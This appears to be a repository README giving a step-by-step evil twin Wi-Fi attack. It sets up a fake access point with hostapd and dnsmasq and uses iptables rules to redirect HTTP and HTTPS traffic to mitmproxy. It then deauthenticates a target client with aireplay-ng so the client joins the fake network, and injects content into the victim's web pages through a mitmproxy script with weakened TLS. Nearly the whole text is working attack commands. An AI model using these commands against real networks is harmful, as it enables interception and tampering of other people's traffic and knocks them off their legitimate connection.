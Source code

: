 
# Rundown

These instructions will show how to perform a full Evil Twin Attack.

These steps will involve performing the following:
- Creating a Fake Access Point (AP)
- Deauthentication Attack
- HTTP downgrade
- Traffic Injection

The example will flip any website the user goes to.

# Requirements
https://zsecurity.org/wp-content/uploads/2020/08/fapCommands.txt

Use an up-to-date Kali Linux Installation.

`apt-get update -y && apt-get upgrade -y`

Creating the AP will require the following packages:
- hostapd (creates the access point)
- dnsmasq (DHCP service)

Manipulating web contents will be done using the following package:
- MITMProxy (sniffs traffic and execute MITM attacks)

Ensure the following files are in the same directory,
and that the related interface and ssid have been provided
inside the files.
- hostapd.conf
- dnsmasq.conf

NOTE: when assigning the interfaces, if the interface is `wlan0`,
then the assignment must be `interface=wlan0mon`.

The ssid is just the name of the Wifi (or access point) to be displayed.

# Instructions

Open a root or privileged terminal.
It is assumed from here on that all commands are
executed with privileges, or as the root user.

Alternatively, you may execute the commands on a regular
terminal by prefixing all the following commands with `sudo`.

Ex.
**sudo** airmon-ng check

## Enable monitor mode on wifi interface to be used
The interface will be referred to as `wlan1`.

`airmon-ng start wlan1`

This will create temporarily create a new interface wlan1**mon**.
We will be referring to interface using this new name.

## Route Table and Gateway

```
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

## Internet

This next step can be skipped if you do not need to give the
connecting computers internet access.

If you do, this step will require an additional interface
that is connected to the internet.

For this example, that interface will be referred to as `wlan0`,
but the interface can be specified as a wireless card too.

This step modifies the firewall of the machine temporarily
(the changes will be deleted on reboot) to allow connecting
machines to have internet access.
Commands to undo the following changes will be provided.

There are generally two methods of sharing internet:
by bridged network or Network Address Translation (NAT).

A bridged network will cause connecting computers to appear to
access the same **interface** and **subnet** that's used by the host computer.
This is more permissive, and generally not secure.

A good NAT setup (with ip forwarding/masquerading and DHCP service)
will put connecting computers to a dedicated subnet and data from/to
that subnet is translated accordingly, similar to how a router connects
a client to the internet.

In these instructions, we will be setting up a NAT.

Run the following commands:

```
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --append PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 1 > /proc/sys/net/ipv4/ip_forward
```

To undo these commands:
```
iptables --table nat --delete POSTROUTING --out-interface wlan0 -j MASQUERADE
iptables --delete FORWARD --in-interface wlan1mon -j ACCEPT
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables --table nat --delete PREROUTING -i wlan1mon -p tcp --dport 443 -j REDIRECT --to-port 8080
echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Creating Access Point

Start each service on its own (root, or run with privileges using `sudo`)
terminal.

```
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf
```

## Deauthenticating Client
https://charlesreid1.com/wiki/Evil_Twin/Setup
https://xerosploit.readthedocs.io/en/latest/proxying/http.html

We need to first locate the MAC address of the target client.
This will require using the MAC address of the `Good Twin` our
host is replicating.

Assume in this case that the Good Twin's MAC addr is: AA:BB:CC:DD:EE

```
airodump-ng -d AA:BB:CC:DD:EE wlp4s0
```

You should eventually see the client, and their MAC Address.
In this example, we will assume that address to be EE:DD:CC:BB:AA

This next step will use that information to kick the target client
out of the Good Twin.

```
aireplay-ng -0 1 -a AA:BB:CC:DD:EE -c EE:DD:CC:BB:AA wlp4s0
```

Assuming the fake access point is setup accordingly, this process
should cause the target client to automatically connect to that AP
instead of the Good Twin.

## Traffic Injection
https://charlesreid1.com/wiki/MITM/Traffic_Injection

Our example will perform an HTML Injection that flips the web content
the user is trying to view.

```
mitmproxy --set tls_version_client_min=SSL3 --mode transparent --showhost -s flip.py
```

